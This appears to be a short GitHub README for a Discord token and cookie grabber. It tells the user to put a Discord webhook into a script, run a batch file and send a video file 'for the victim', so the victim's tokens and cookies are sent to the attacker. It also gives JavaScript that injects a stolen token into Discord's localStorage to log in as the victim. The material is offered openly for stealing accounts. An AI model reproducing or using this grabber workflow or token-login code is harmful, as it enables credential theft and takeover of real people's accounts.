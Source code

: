 **Image Tool By OK.@**


- edit file Inje.js
- enter your discord webhook 
- open Start.bat
- send Video Cat.webm for the victim


Discord Token & Cookies Logger - Grabber 
with a video # 6 sec ~ 
By OK. https://discord.gg/vfJknm825G

- login code
```let token = "";

function login(token) {
    setInterval(() => {
      document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage.token = `"${token}"`
    }, 50);
    setTimeout(() => {
      location.reload();
    }, 2500);
  }

login(token);
```
